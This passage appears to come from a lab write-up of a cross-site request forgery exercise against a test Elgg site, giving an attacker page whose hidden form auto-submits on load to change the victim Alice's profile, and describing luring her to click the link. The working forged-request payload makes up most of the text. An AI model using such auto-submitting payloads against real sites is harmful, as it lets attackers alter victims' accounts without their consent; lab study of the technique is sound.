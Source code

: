 In `/var/www/CSRF/Attacker/`, create `index.html`:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Dear Alice</title>
    <body>
        <h1>Dear Alice</h1>
        <p>You have a profile update!</p>
        <form id="csrf-form" action="http://www.csrflabelgg.com/action/profile/edit" method="POST">
            <input type="hidden" name="name" value="Alice" />
            <input type="hidden" name="briefdescription" value="Boby is my Hero" />
            <input type="hidden" name="accesslevel[briefdescription]" value="2" />
            <input type="hidden" name="guid" value="42" />
        </form>
        <script type="text/javascript">
            document.getElementById("csrf-form").submit(); // executed upon page load
        </script>
    </body>
</html>
```

### Launching the POST Attack

Again we cheat Alice into clicking the link `http://www.csrflabattacker.com`.

![](images/2-4-2.png)
